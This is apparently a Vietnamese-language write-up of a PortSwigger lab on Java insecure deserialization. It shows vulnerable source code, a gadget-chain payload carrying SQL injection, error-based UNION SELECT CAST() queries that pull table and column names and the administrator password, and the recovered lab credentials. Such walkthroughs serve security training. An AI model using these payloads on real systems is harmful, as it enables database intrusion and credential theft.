 # Target Goal: 

To solve the lab, gain access to the source code and use it to construct a gadget chain to obtain the administrator's password. Then, log in as the `administrator` and delete `carlos`.

Credentials: `wiener:peter`

# Recon: 

Sau khi login vào, ta sẽ có cookie được serialize bởi java:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/2ad560ff-0986-458a-9362-a0f1cf6379aa)

Bên `Site-map` cũng bắt được 1 path ẩn:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/2dad6dd7-bb6e-4479-bddd-d9ce059a34ac)

Lui xuống ta có 1 file có nội dung như sau:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/81175d68-0891-420d-af8b-d7405bb616be)

Ta rút được vài chú ý về src code và nó đang dùng `postgresql`:

```
public ProductTemplate(String id)
    {
        this.id = id;
    }

private void readObject(ObjectInputStream inputStream) throws IOException, ClassNotFoundException
    {
        inputStream.defaultReadObject();

        ...
            String sql = String.format("SELECT * FROM products WHERE id = '%s' LIMIT 1", id);
        ...
    }
```

Tiếp theo là tạo [Payload]() thực hiện SQLi thông qua tham số `id`.

`ProductTemplate prodTemplate = new ProductTemplate("' UNION SELECT NULL -- ");`

Compile và thực thi code, ta nhận được serialized object.

![image](https://github.com/vanniichan/Portswigger/assets/112863484/33fcfced-4c97-45af-bd69-5c9ff53cb4bf)

Error trả về của postgresql báo UNION phải cùng số cột với câu query trước → Ta đã có thể đảm bảo rằng ta có thể SQLi thành công.

![image](https://github.com/vanniichan/Portswigger/assets/112863484/ff366856-b9dd-4794-a2db-7b74ca78605e)

Giờ mò đúng số cột (8) và tiếp tục tìm tên table:

```
' UNION SELECT NULL, NULL, NULL, CAST(table_name AS INTEGER), NULL, NULL, NULL, NULL FROM information_schema.tables --

///tận dụng CAST() để trả về nội dung các trường cần xem thông qua lỗi
```
![image](https://github.com/vanniichan/Portswigger/assets/112863484/a9012491-9b98-46cf-8508-931f8da13015)

Có table rồi thì giờ tìm cột:

```
' UNION SELECT NULL, NULL, NULL, CAST(column_name AS INTEGER), NULL, NULL, NULL, NULL FROM information_schema.columns WHERE table_name= 'users' --

///tận dụng CAST() để trả về nội dung các trường cần xem thông qua lỗi
```

![image](https://github.com/vanniichan/Portswigger/assets/112863484/15ce9978-797b-4d2d-acdb-ade62acaee1d)

Bây giờ chỉ cần tìm password với `username = administrator`:

```
' UNION SELECT NULL, NULL, NULL, CAST(password AS INTEGER), NULL, NULL, NULL, NULL FROM users WHERE username = 'administrator'-- 

```
![image](https://github.com/vanniichan/Portswigger/assets/112863484/9dc91a6c-a265-4ffc-af0b-a346eea868bd)

`administrator:5i91028uxwa4odk6dcay`

![image](https://github.com/vanniichan/Portswigger/assets/112863484/b43ab330-2ceb-4d3d-bd79-61b39cd0284f)

# Flag: 

![image](https://github.com/vanniichan/Portswigger/assets/112863484/82f8e892-3cc7-4a65-a0ff-55463da4019b)
